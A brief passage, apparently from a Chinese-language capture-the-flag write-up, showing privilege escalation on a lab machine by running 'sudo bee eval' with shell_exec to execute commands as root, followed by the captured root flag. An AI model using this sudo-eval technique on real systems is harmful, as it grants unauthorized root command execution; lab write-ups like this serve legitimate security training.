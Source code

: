 ```php title="/backdrop_tool/bee/bee.php"
    // Output the combined string.
    return $browser_output;
}
```

经过代码分析，可以尝试使用 `eval` 函数实现任意命令执行

```bash
johncusack@dog:~$ sudo /usr/local/bin/bee --root=/var/www/html eval "echo shell_exec('whoami')"
root
```

## FLAG - ROOT

```flag title="/root/root.txt"
3fe5fde91fa680a9a6e062ba9a80cb50
```
